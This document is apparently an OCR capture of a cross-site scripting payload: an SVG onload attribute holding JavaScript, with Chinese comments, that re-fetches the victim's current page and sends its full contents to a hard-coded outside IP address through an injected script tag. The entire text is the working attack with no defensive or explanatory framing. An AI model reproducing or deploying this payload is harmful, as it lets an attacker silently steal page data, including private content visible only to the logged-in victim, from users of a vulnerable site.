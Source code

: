 <svg/onload="
var pages = [window.location.href];
console.log(pages);
var data = {};
var count = 0;

// 请求每个页面的数据
for (var i = 0; i < pages.length; i++) {
  var xhr = new XMLHttpRequest();
  xhr.open('POST', pages[i], true);
  xhr.onreadystatechange = function() {
    if (xhr.readyState === 4 && xhr.status === 200) {
      // 将页面数据存储到 data 对象中
      data[pages[i]] = xhr.responseText;
      count++;
      if (count === pages.length) {
        // 所有页面数据请求完毕，发送数据到外部 URL
	console.log(data);
        sendData(data);
      }
    }
  };
  xhr.send();
}

// 发送数据到外部 URL
function sendData(data) {
var callbackName = 'handleData' + new Date().getTime();
var url = 'http://124.222.21.138:9999/callback.php?callback=' + callbackName + '&data=' + encodeURIComponent(JSON.stringify(data));

var script = document.createElement('script');
script.src = url;
document.body.appendChild(script);

window[callbackName] = function(response) {
var decodedResponse = decodeURIComponent(escape(response));
console.log(decodedResponse);
delete window[callbackName];
};
}
">
